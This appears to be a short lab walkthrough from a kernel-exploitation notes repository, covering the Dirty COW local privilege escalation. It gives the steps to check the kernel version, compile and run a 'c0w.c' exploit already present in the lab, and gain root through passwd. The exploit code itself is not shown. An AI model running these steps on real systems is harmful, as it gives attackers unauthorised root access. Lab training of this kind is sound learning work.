

# Exploit


To find out the kernal

```bash
uname -a
```

We will get the famous dirty cow exploit 
For the lab it is already installed

to compile the c0w.c

```c
gcc -pthread c0w.c -o cow
```

To run (cow since we did “-o cow”

```c
./cow
```



As we can see we can to type passwd to gain root access after running cow


---
[Back to Kernel Exploit](./README.md)
